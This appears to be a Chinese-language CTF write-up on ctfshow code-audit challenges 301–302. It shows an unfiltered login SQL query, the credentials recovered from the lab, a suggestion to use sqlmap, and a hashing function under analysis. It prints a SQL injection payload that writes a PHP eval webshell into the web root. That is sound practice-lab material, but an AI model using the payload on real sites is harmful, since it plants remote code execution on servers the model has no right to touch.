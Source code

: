 ```yaml
---
title: ctfshow-代码审计
id: ctfshow-代码审计
---
```




整个国庆都在刷终极考核，第一台机子拿了shell但是没能提权，看了4天linux提权
和群主交流的时候他说挺简单，应该是我信息收集没到位；

虽然前面的提权都没成，但也学到很多东西

明天晚上就回学校了，今天就抽点时间做一下代码审计这一块放松放松~


## 301 sql注入

本来打算用seay审一下，但是啥也没有，大概是没有危险函数？
手动审一下

checklogin.php，sql语句没有过滤

```php
$sql="select sds_password from sds_user where sds_username='".$username."' order by id limit 1;";
```

没回显就不注了，可以sqlmap一把梭，账户密码：`admin/ctfshowwwww`

![](https://i.loli.net/2021/10/06/9SvGmP1j4J7s8CB.png)

或者尝试写马

```sql
userid=' union select "<?php eval($_GET[1]);" into outfile "/var/www/html/a.php" --+
```

## 302 sql注入

> hint:
>
> 修改的地方：
>
> ```php
> if(!strcasecmp(sds_decode($userpwd),$row['sds_password'])){
> ```

也就是比原本加了个sds_decode()，找到fun.php里

```php
function sds_decode($str){
	return md5(md5($str.md5(base64_encode("sds")))."sds");
}
```

数据库里还是`admin/ctfshowwwww`，所以用这个登录是登不进的
想符合比较需要：
传入的userid经过sds_decode后等于`ctfshowwwww`，个人感觉不太可行
